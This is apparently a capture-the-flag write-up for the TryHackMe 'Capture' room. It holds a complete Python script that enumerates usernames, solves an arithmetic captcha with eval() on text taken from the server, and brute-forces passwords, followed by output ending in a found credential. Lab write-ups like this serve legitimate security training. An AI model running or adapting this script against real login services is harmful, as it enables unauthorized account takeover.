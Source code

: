 ```yaml
---
title: TryHackMe - Capture
author: 0
date: 2023-05-10 16:00:00 +0800
categories: [thm, machine]
tags: [brute-force, username-enumeration, captcha-bypass, insufficient-anti-automation]
render_with_liquid: false
---
```


>SecureSolaCoders has once again developed a web application. They were tired of hackers enumerating and exploiting their previous login form. They thought a Web Application Firewall (WAF) was too overkill and unnecessary, so they developed their own rate limiter and modified the code slightly.

The application starts off with a homepage that includes just a simple login form. We got two downloadable files with a set of usernames and one file with a bunch of passwords.

![Homepage](/assets/img/thm-capture-homepage.png)

## Reconnaissance

When inputting credentials, we get a "User X not found" message which will allow us to enumerate existing users by going over the `usernames.txt` file and filtering out the requests that throw a different message than "User X not found".

![Username](/assets/img/thm-capture-username.png)

I started using burp intruder for this but after a few requests we need to fill in a captcha. This captcha is a simple calculation which is something we can solve by creating a python script.

![Captcha](/assets/img/thm-capture-captcha.png)

The python script makes a request to the login page, iterating over all usernames, solving the captcha if needed. Once it finds a username where the "User X not found" error isn't present, the script loops over all passwords.

```python
import requests
import sys
from bs4 import BeautifulSoup

headers = {"User-Agent":"Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0",
           "Content-Type":"application/x-www-form-urlencoded"}

def do_request(username, password):
    payload = f'username={username}&password={password}'
    response = requests.post(url + '/login', headers=headers, data=payload)
    
    # check if response needs a captcha to be solved
    soup = BeautifulSoup(response.text, 'html.parser')
    captcha_label = soup.find('label', text='Captcha enabled')
    if captcha_label:
        # Find captcha value on the page
        captcha_equation = captcha_label.find_next_sibling(text=True).strip()
        # Remove the last four characters " = ?"
        captcha_equation_stripped = captcha_equation[:-4]
        # Solve the captcha
        captcha_solved = eval(captcha_equation_stripped)
        # Set request payload to include solved captcha
        payload = payload + f'&captcha={captcha_solved}'
        response = requests.post(url + '/login', headers=headers, data=payload)
    return response

url = sys.argv[1]
count = 0

with open('usernames.txt') as usernames:
    for username in usernames:
        username = username.strip()
        response = do_request(username, 'password')
        count = count + 1
        username_exists = False
        # No error message so user exists
        if "does not exist" not in response.text:
            username_exists = True
            count_pw = 0
            with open('passwords.txt') as passwords:
                for password in passwords:
                    password = password.strip()
                    response = do_request(username, password)
                    count_pw = count_pw + 1
                    if "Invalid password" not in response.text:
                        print(f'CREDENTIALS FOUND: {username}:{password}')
                        sys.exit()
                    print(f'{count} - {username} - {response.status_code} - {username_exists} - {count_pw} - {password}')
        print(f'{count} - {username} - {response.status_code} - {username_exists}')

```

```bash
$ python3 exploit.py http://10.10.32.213
1 - rachel - 200 - False
2 - rodney - 200 - False
3 - corrine - 200 - False
4 - erik - 200 - False
5 - chuck - 200 - False
...
303 - dewitt - 200 - False
304 - hilario - 200 - False
305 - vilma - 200 - False
306 - hugh - 200 - False
307 - natalie - 200 - True - 1 - football
307 - natalie - 200 - True - 2 - kimberly
307 - natalie - 200 - True - 3 - mookie
307 - natalie - 200 - True - 4 - daniel
307 - natalie - 200 - True - 5 - love21
307 - natalie - 200 - True - 6 - drpepper
307 - natalie - 200 - True - 7 - brayan
307 - natalie - 200 - True - 8 - bullet
...
307 - natalie - 200 - True - 27 - arsenal
307 - natalie - 200 - True - 28 - pearljam
307 - natalie - 200 - True - 29 - fantasia
307 - natalie - 200 - True - 30 - angel2
CREDENTIALS FOUND: natalie:sk**REDACTED**rd
```